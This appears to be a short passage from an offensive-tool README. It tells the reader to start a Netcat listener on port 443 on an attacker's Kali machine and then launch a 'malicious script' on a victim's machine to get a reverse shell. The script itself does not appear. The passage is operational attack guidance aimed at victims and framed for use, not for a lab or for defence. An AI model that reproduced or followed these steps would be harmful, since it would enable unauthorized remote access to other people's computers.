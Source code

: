 This script will be launched in the victim's machine. Before that, make sure you have connection to that machine, and in you Kali, use Netcat to be waiting for the port selected in the script.
---
                                                                                        DEFAULT
                                                                                          443
---

*COMMAND*
sudo nc -nlvp 443


This will initialize a process of listening, from you Atackers' Machine. Then, launch the malicius script in the Target 's machine. You will receive a Reverse Shell, with the minimum privileges
